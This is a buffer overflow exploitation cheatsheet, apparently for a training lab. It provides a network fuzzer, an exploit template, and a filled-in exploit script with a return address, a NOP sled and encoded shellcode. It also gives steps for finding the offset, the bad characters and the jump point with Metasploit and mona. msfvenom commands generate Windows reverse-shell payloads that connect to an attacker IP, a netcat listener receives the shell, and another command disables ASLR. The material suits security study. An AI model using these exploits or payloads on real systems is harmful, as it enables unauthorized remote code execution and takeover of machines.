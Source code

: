 # BOF Cheatsheet

### fuzzer.py

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

### exploit.py

<pre class="language-python"><code class="lang-python">#!/usr/bin/env python3

<strong>import socket
</strong>
ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
</code></pre>

### exploit\_bytes.py

```python
offset = 1308
overflow = "A" * offset
retn = "\xba\x11\x80\x14"
padding = "\x90" * 16
payload="\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e\x5f\x35\xae\x3d\x83\xee\xfc\xe2\xf4 \xa3\xdd\x2c\x3d\x5f\x35\xce\xb4\xba\x04\x6e\x59\xd4\x65\x9e\xb6\x0d\x39\x25\x6f\x4b\xbe\xdc\x15\x50\x82\ xe4\x1b\x6e\xca\x02\x01\x3e\x49\xac\x11\x7f\xf4\x61\x30\x5e\xf2\x4c\xcf\x0d\x62\x25\x6f\x4f\xbe\xe4\x01\x d4\x79\xbf\x45\xbc\x7d\xaf\xec\x0e\xbe\xf7\x1d\x5e\xe6\x25\x74\x47\xd6\x94\x74\xd4\x01\x25\x3c\x89\x04\x5 1\x91\x9e\xfa\xa3\x3c\x98\x0d\x4e\x48\xa9\x36\xd3\xc5\x64\x48\x8a\x48\xbb\x6d\x25\x65\x7b\x34\x7d\x5b\xd4 \x39\xe5\xb6\x07\x29\xaf\xee\xd4\x31\x25\x3c\x8f\xbc\xea\x19\x7b\x6e\xf5\x5c\x06\x6f\xff\xc2\xbf\x6a\xf1\ x67\xd4\x27\x45\xb0\x02\x5d\x9d\x0f\x5f\x35\xc6\x4a\x2c\x07\xf1\x69\x37\x79\xd9\x1b\x58\xca\x7b\x85\xcf\x 34\xae\x3d\x76\xf1\xfa\x6d\x37\x1c\x2e\x56\x5f\xca\x7b\x6d\x0f\x65\xfe\x7d\x0f\x75\xfe\x55\xb5\x3a\x71\xd d\xa0\xe0\x39\x57\x5a\x5d\x6e\x95\x28\xb0\xc6\x3f\x5f\x34\x15\xb4\xb9\x5f\xbe\x6b\x08\x5d\x37\x98\x2b\x54 \x51\xe8\xda\xf5\xda\x31\xa0\x7b\xa6\x48\xb3\x5d\x5e\x88\xfd\x63\x51\xe8\x37\x56\xc3\x59\x5f\xbc\x4d\x6a\ x08\x62\x9f\xcb\x35\x27\xf7\x6b\xbd\xc8\xc8\xfa\x1b\x11\x92\x3c\x5e\xb8\xea\x19\x4f\xf3\xae\x79\x0b\x65\x f8\x6b\x09\x73\xf8\x73\x09\x63\xfd\x6b\x37\x4c\x62\x02\xd9\xca\x7b\xb4\xbf\x7b\xf8\x7b\xa0\x05\xc6\x35\xd 8\x28\xce\xc2\x8a\x8e\x5e\x88\xfd\x63\xc6\x9b\xca\x88\x33\xc2\x8a\x09\xa8\x41\x55\xb5\x55\xdd\x2a\x30\x15\x7a\x4c\x47\xc1\x57\x5f\x66\x51\xe8"
buffer = overflow + retn + padding + payload
with open("exploit_bytes.txt","wb") as f:
    f.write(bytes(buffer + "\n", "latin-1"))

```

### \x01 to \xff

```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

### 1. Pattern Create

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 800
```

### 2. Finding offset where EIP overwrite happens

```bash
msf-pattern_offset -l 800 -q 42306142
```

{% hint style="info" %}
-l: the length of the original pattern&#x20;

-q: specify the bytes found in EIP
{% endhint %}

### 3. Find bad chars&#x20;

#### Manual method:

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
```

```bash
python2 -c "print ''.join([chr(i) for i in range(1,256)])" > exploit.txt
```

{% hint style="info" %}
Above script will generate exploit.txt that contains the raw bytes from \x01 to \xff (By default \x00 is bad char)

Use `bvi` to edit the raw hex bytes!
{% endhint %}

* Overflow the buffer to gain control of EIP register and append the entire \x01 to \xff bytearray to the shellcode.
* Use Immunity Debugger to run the program --> click on ESP register --> `Follow in Dump`
* Check the stack values against the original bytearray to figure out the bad characters.
* After finding a bad char, note it down and remove it from the bytearray shellcode and repeat the process again until the \xff appears.

#### Mona method:

```
!mona config -set workingfolder c:\Users\admin\Desktop
```

```
!mona bytearray -b "\x00"
```

```
!mona compare -f c:\Users\admin\Desktop\bytearray.bin -a <ESP addr>
```

{% hint style="info" %}
After finding a bad char, remove it and send the remaining payload again. Find the bad chars one by one (since bad chars may affect the chars adjacent to it).
{% endhint %}

### 4. Finding a jump point

```bash
!mona jmp -r esp -cpb "\x00\x0a"
```

{% hint style="info" %}
Update the -cpb option with all the badchars you identified (including \x00)
{% endhint %}

* Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

### 5. Generate payloads

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

{% hint style="info" %}
* -f c: To select C-formatted shellcode
* -e x86/shikata\_ga\_nai: use of the polymorphic encode shikata\_ga\_nai (It can’t be helped)
* -b “\x00\x0a..”: specifies the bad chars
{% endhint %}

{% hint style="info" %}
* For linux --> -p linux/x86/shell\_reverse\_tcp
{% endhint %}

### 6. Prepend NOPs

```
padding = "\x90" * 16
```

{% hint style="info" %}
Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself.
{% endhint %}

### 7. Obtain shell

```
netcat -lvp 4444
```

### Troubleshooting

Some bad chars only appear when they are adjacent to certain chars. Hence, it is wise to check the hex values of the created shellcode against the values present in the stack (ESP --> Follow Dump)

#### To check hex values of created shellcode

```bash
xxd -g 1 -c 8 exploit_bytes.txt
```

{% hint style="info" %}
-g: number of octets per group

-c: format octets per line
{% endhint %}

#### Find Function Address

```bash
objdump -D execution-flow-windows.exe | grep <func_name>
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Need to convert the address to little endian format (00401530 --> \x30\x15\x40\x00)
{% endhint %}

#### Disable ASLR for Linux

```bash
echo 0 | tee /proc/sys/kernel/randomize_va_space
```
